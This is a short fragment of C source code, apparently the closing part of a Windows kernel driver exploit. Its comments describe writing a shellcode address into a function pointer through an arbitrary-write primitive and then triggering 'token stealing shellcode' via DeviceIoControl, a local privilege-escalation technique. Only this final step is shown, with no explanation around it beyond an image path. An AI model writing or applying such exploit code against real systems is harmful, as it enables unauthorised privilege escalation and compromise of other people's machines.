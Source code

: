 ```C
	// Write shellcode addr to function pointer
	arbWrite((char*)func_ptr, (char*)(&shellAddr), 0x8);

	// Execute token stealing shellcode
	DeviceIoControl(hDevice,
		IOCTL_ACT,
		NULL, NULL,
		nullptr, 0,
		&returned, nullptr
	);


	CloseHandle(hDevice);
}
```
